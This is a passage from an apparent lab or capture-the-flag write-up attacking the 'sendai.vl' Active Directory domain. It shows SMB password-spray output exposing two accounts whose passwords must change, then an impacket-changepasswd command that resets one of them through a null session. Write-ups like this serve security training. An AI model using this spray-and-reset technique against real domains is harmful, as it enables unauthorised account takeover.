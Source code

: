 ```
SMB         10.129.234.66   445    DC               [-] sendai.vl\krbtgt: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\DC$: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\sqlsvc: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\websvc: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Dorothy.Jones: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Kerry.Robinson: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Naomi.Gardner: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Anthony.Smith: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Susan.Harper: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Stephen.Simpson: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Marie.Gallagher: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Kathleen.Kelly: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Norman.Baxter: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Jason.Brady: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Elliot.Yates: STATUS_PASSWORD_MUST_CHANGE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Malcolm.Smith: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Lisa.Williams: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Ross.Sullivan: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Clifford.Davey: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Declan.Jenkins: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Lawrence.Grant: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Leslie.Johnson: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Megan.Edwards: STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Thomas.Powell: STATUS_PASSWORD_MUST_CHANGE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\mgtsvc$: STATUS_LOGON_FAILURE 
```
**Affected Users:**
- `Elliot.Yates` (STATUS_PASSWORD_MUST_CHANGE)
- `Thomas.Powell` (STATUS_PASSWORD_MUST_CHANGE)

### Password Reset
Using `impacket-changepasswd` to reset passwords for the affected accounts:
```
impacket-changepasswd sendai.vl/Elliot.Yates:''@sendai.vl
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Current password: 
New password: 
Retype new password: 
[*] Changing the password of sendai.vl\Elliot.Yates
[*] Connecting to DCE/RPC as sendai.vl\Elliot.Yates
[!] Password is expired or must be changed, trying to bind with a null session.
[*] Connecting to DCE/RPC as null session
```